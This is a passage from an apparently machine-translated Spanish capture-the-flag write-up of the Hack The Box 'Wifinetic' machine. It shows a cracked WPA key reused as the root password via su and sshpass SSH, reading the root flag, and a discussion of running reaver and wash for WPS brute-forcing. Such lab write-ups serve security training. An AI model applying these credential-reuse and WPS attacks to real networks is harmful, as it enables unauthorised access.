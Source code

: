 Muy rápidamente puede descifrar la contraseña WPA (o clave precompartida (PSK)) de la red inalámbrica.

#### su/SSH <a href="#su--ssh" id="su--ssh"></a>

Esta contraseña funciona como contraseña para root en el cuadro, ya sea `su`en una sesión existente:

```
netadmin@wifinetic:~$ su -
Password: 
root@wifinetic:~#
```

O iniciar una nueva sesión SSH:

```
oxdf@hacky$ sshpass -p 'WhatIsRealAnDWhAtIsNot51121!' ssh root@10.10.11.247
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)
...[snip]...
root@wifinetic:~# 
```

De cualquier manera, puedo agarrar `root.txt`:

```
root@wifinetic:~# cat root.txt
b8e6c359************************
```

### Más allá de la raíz <a href="#beyond-root" id="beyond-root"></a>

#### Fondo <a href="#background-1" id="background-1"></a>

La mayoría de los tutoriales que muestran cómo ejecutar `reaver`usarán algo como `wash -i mon0`obtener los BSSID de las redes disponibles y enumerar si el WPS está bloqueado (lo que hace que sea mucho menos probable que funcione la fuerza bruta).

`wash`es una herramienta que forma parte de `reaver`y está destinada a enumerar redes. Pero requiere la `CAP_NET_RAW`capacidad, al igual que `reaver`hace.

Es inusual realizar este ataque sin root en el cuadro atacante. Normalmente, este ataque se realiza desde el hardware del controlador del atacante en las proximidades locales de la red WiFi. Pero incluso si alguien lo hace desde una caja comprometida, necesitará root, ya que es _muy_ poco probable que `reaver`se encuentre con las capacidades necesarias en el mundo real, como es el caso de HTB.

#### Ejecutando lavado como netadmin <a href="#running-wash-as-netadmin" id="running-wash-as-netadmin"></a>

Con un shell no root en el cuadro, si intento ejecutar `wash -i mon0`como se recomienda y simplemente se cuelga:

```
netadmin@wifinetic:~$ wash -i mon0
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
```
